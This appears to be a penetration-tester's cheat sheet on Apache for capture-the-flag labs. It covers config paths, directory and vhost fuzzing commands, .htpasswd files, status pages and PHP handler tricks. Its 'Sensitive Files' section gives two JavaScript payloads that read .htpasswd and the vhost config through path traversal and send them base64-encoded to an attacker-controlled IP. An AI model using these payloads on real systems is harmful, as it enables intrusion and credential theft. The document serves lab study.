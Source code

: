```yaml
---
icon: helicopter
---
```


# Apache

{% hint style="info" %}
<mark style="color:purple;">It uses a process-based model, where each request is handled by a separate thread or process, which can be resource-heavy under high traffic but provides great compatibility.</mark>
{% endhint %}

<details>

<summary><mark style="color:purple;"><strong><code>Configuration Files</code></strong></mark> </summary>

{% code title="Standard" %}
```
/etc/apache2/apache2.conf
```
{% endcode %}

{% code title="RHEL" %}
```
/etc/httpd/httpd.conf
```
{% endcode %}

{% code title="FreeBSD" %}
```
/etc/apache24/httpd.conf
```
{% endcode %}

{% code title="vhost" %}
```
/etc/apache2/sites-enabled/000-default.conf
```
{% endcode %}

{% code title="Modules" %}
```
/etc/apache2/mods-available/
```
{% endcode %}

</details>

<details>

<summary><mark style="color:purple;"><strong><code>Initial Recon</code></strong></mark></summary>

* <mark style="color:purple;">If you are lucky you may be able to find</mark> <mark style="color:orange;">**`/sites-enabled`**</mark> <mark style="color:purple;">and</mark> <mark style="color:orange;">**`/sites-available`**</mark> <mark style="color:purple;">or even</mark> <mark style="color:orange;">**`logs`**</mark><mark style="color:purple;">:</mark>&#x20;

{% code overflow="wrap" %}
```shell
feroxbuster -u http://URL.htb -w ~/Documents/Wordlists/default-web-root-directory-linux.txt --output urls.txt --redirects
```
{% endcode %}

* <mark style="color:orange;">**`robots.txt`**</mark> <mark style="color:purple;">can reveal pages that the server is hiding.</mark>
* <mark style="color:purple;">Fuzz for</mark> <mark style="color:orange;">**`vhosts`**</mark> <mark style="color:purple;">at sight of</mark> <mark style="color:orange;">**`301`**</mark> <mark style="color:purple;">responses.</mark>

{% code title="Ffuf" overflow="wrap" %}
```bash
ffuf -c -w ~/Documents/Wordlists/subdomains-top1million-20000.txt -u http://SITE/ -H "Host: FUZZ.URL.htb" -fc 301 -ac
```
{% endcode %}

* <mark style="color:orange;">**`/cgi-bin/`**</mark><mark style="color:purple;">: Directory for executing</mark> <mark style="color:orange;">**`CGI`**</mark> <mark style="color:purple;">scripts.</mark>

- <mark style="color:orange;">**`/icons/`**</mark><mark style="color:purple;">: Often used for directory listings. It may expose unintended file paths.</mark>
- <mark style="color:orange;">**`phpinfo.php`**</mark><mark style="color:purple;">: Disclose sensitive server and PHP configuration details.</mark>

</details>

<details>

<summary><mark style="color:purple;"><strong><code>Authentication/Authorization</code></strong></mark></summary>

#### <mark style="color:red;">**`Authentication`**</mark>

* <mark style="color:orange;">**`.htaccess`**</mark><mark style="color:purple;">: Configures directory-specific rules for authentication and other settings.</mark>
* <mark style="color:orange;">**`.htpasswd`**</mark><mark style="color:purple;">: Stores user credentials for basic authentication.</mark>

</details>

<details>

<summary><mark style="color:purple;"><strong><code>Standard Modules</code></strong></mark></summary>

{% hint style="info" %}


#### <mark style="color:red;">**`mod_status`**</mark>&#x20;

<mark style="color:orange;">**`/server-status`**</mark><mark style="color:purple;">: Real-time status and diagnostic information about the server, including active requests, resource usage, and server performance.</mark>

<mark style="color:orange;">**`/server-info`**</mark><mark style="color:purple;">: Server health and performance monitoring.</mark>
{% endhint %}

</details>

<details>

<summary><mark style="color:orange;"><strong><code>PHP</code></strong></mark> <mark style="color:purple;"><strong><code>Modules</code></strong></mark></summary>

<mark style="color:purple;">To Allow</mark> <mark style="color:orange;">**`PHP`**</mark> <mark style="color:purple;">execution you need to add this line to</mark> <mark style="color:orange;">**`/etc/apache2/apache2.conf`**</mark><mark style="color:purple;">:</mark>

{% code overflow="wrap" %}
```apacheconf
LoadModule php_module /usr/lib/apache2/modules/libphp.so
    AddType application/x-httpd-php .php
```
{% endcode %}

* <mark style="color:purple;">You can actually add any extension that you want:</mark>

```
AddType application/x-httpd-php .l33t
```

</details>

<details>

<summary><mark style="color:red;"><strong><code>Sensitive Files</code></strong></mark></summary>

{% code title="Authorization File" overflow="wrap" %}
```javascript
var req = new XMLHttpRequest();
req.open('GET', 'http://alert.htb/messages.php?file=../../../../../var/www/statistics.alert.htb/.htpasswd', false);
req.send();
var req2 = new XMLHttpRequest();
req2.open('GET', 'http://10.10.14.162:3000/?content=' + btoa(req.responseText),
true);
req2.send();
```
{% endcode %}

{% code title="Default config file" overflow="wrap" %}
```javascript
var req = new XMLHttpRequest();
req.open('GET', 'http://alert.htb/messages.php?file=../../../../../etc/apache2/sites-available/000-default.conf', false);
req.send();
var req2 = new XMLHttpRequest();
req2.open('GET', 'http://10.10.14.162:3000/?content=' + btoa(req.responseText),
true);
req2.send();
```
{% endcode %}

{% hint style="info" %}
<mark style="color:red;">**`Logs`**</mark>

* <mark style="color:purple;">Access Logs:</mark>
  * <mark style="color:orange;">**`/var/log/apache2/access.log`**</mark>
  * <mark style="color:orange;">**`/var/log/httpd/access_log`**</mark>
* <mark style="color:purple;">Error logs:</mark>
  * <mark style="color:orange;">**`/var/log/apache2/error.log`**</mark>
  * <mark style="color:orange;">**`/var/log/httpd/error_log`**</mark>
{% endhint %}

</details>
